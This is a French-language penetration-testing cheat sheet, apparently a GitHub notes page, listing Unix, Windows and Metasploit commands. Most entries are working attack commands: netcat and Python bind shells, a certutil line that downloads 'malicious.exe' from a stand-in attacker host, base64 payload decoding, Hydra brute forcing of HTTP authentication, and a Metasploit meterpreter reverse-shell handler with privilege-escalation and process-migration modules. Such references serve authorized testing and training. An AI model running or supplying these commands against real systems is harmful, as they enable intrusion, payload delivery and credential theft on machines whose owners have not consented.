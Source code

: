 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
setfacl -m u:username:rwx myfolder</br>
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
Rebonds avec ssh:</br>
ssh -J root@premier_rebond root@cible</br>
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
<ul>
  <li>python -c "import pty; pty.spawn('/bin/bash')"</li>
</ul>
<h4>Pour avoir tab completion tout joli :</h4>
<ul>
  <li>Prendre un shell pty avec la commande plus haut</li>
  <li>CTRL-Z</li>
  <li>stty raw -echo</li>
  <li>fg</li>
</ul>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

Hydra:</br>
http-auth bute force</br>
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V</br>

XfreeRDP:</br>
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>
certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe le wget en cmd<br/>
certutil.exe -decode bad.txt bad.exe le base64 decode en cmd</br>

<h3>Powershell</h3>
get-WmiObject -class Win32_Share</br>


<h2>Metasploit</h2>
Handler :</br>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 192.168.8.142</br>
set LPORT 8888</br>
set ExitOnSession false</br>
exploit -j -z</br>

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>
